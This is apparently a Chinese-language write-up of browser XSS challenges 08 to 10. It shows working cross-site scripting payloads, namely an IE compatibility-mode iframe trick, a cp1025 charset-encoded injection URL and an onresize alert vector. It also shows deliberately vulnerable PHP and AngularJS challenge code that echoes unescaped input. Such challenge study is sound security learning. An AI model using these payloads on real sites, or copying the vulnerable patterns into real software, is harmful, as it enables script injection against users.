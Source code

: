 题目还没太想明白，payload如下

```
<% contenteditable onresize=alert(document.domain)>
```

这个payload在ie11中无法触发，但是我们可以通过设置x-ua-compatible来设置文档兼容性，这样就可以兼容ie9,ie19了。

然后lemon是这么解释这部分的**即便iframe内页面和父窗口即便不同域，iframe内页面也会继承父窗口的兼容模式，所以IE的一些老技巧、特性可以通过此方法去复活它.**
```
<meta http-equiv=x-ua-compatible content=IE=9>
<iframe id=x src="http://xianzhi.aliyun.com/xss8.php?url=http://ns1.rootk.pw:8080/xss/wp/8.txt"></iframe>
```

# 09 plaintext #

```
<?php
header("X-XSS-Protection: 0");
header("Content-Type: text/html;charset=gb3212");
?>
<plaintext><?php echo $_GET["text"];?>
```

代码部分很简单但是问题很多，关于页面编码的问题，我曾经在一篇博客提到过。

[https://lorexxar.cn/2017/05/23/rctf2017/#noxss](https://lorexxar.cn/2017/05/23/rctf2017/#noxss)

浏览器解析页面编码有几个步骤，当页面content-type没有指定编码，link没有指定编码，页面编码就会由meta标签指定。

这里题目执行了不存在的编码，所以，我们可以通过meta来设置页面编码。

后面就简单了，我们可以通过设置奇怪的字符集，然后用奇怪的字符集在页面内解析标签，我觉得utf-16可能更好构造，但是懒得测试了，这里贴上lemon使用的。

是cp1025编码
```
<  %4c
>  %6e
/  %61
(  %4d
)  %5d
=  %7e
;  %5e
'  %7d
```

payload
```
http://xianzhi.aliyun.com/xss9.php?text=<meta http-equiv="content-Type" content="text/html; charset=cp1025">%4c%89%94%87%01%a2%99%83%7e%f1%01%96%95%85%99%99%96%99%7e%81%93%85%99%a3%4d%f1%5d%0b%6e
```

# 10 MVM #

```
<html ng-app>
<head>
<meta charset=utf-8>
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.5/angular.js"></script>
</head>
<body>
<input id="username" name="username" tabindex="1" ng-model="username" ng-init="username='<?php if(strlen($_GET["username"])<37){echo htmlspecialchars($_GET["username"]);}?>'" placeholder="username" maxlength="11" type="text">
</body>
</html>
```
